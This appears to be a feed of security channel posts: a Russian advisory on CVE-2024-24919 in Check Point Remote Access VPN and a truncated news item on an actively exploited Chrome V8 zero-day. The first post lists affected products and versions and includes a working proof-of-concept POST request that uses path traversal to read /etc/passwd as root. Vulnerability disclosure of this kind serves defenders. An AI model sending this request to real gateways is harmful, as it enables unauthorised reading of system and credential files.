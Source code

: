 # freedomf0x
`2024-06-04`

<blockquote>
&#35;CVE-2024-24919. Эта уязвимость в Check Point Remote Access VPN позволяет читать файлы на хосте (LFI), с привилегиями root. Уязвимыми являются следующие продукты:

  - CloudGuard Network
  - Quantum Maestro
  - Quantum Scalable Chassis
  - Quantum Security Gateways
  - Quantum Spark Appliances

- Версии:
  - R77.20 (EOL)
  - R77.30 (EOL)
  - R80.10 (EOL)
  - R80.20 (EOL)
  - R80.20.x
  - R80.20SP (EOL)
  - R80.30 (EOL)
  - R80.30SP (EOL)
  - R80.40 (EOL)
  - R81
  - R81.10
  - R81.10.x
  - R81.20

&#35;POC

POST /clients/MyCRL HTTP/1.1 
Host: target_host 
Content-Length: 63 

aCSHELL/../../../../../../../etc/passwd
</blockquote>

<table><tr><td><b>→</b><a href="None">
None
</a>
</td></tr></table>

---

# cibsecurity
`2024-05-24`

<blockquote>
🖋️ Google Detects 4th Chrome Zero-Day in May Actively Under Attack - Update ASAP 🖋️

Google on Thursday rolled out fixes to address a highseverity security flaw in its Chrome browser that it said has been exploited in the wild. Assigned the CVE identifier CVE20245274, the vulnerability relates to a type confusion bug in the V8 JavaScript and WebAssembly engine. It was reported by Clment Lecigne of Google's Threat Analysis Group and Brendon Tiszka of.
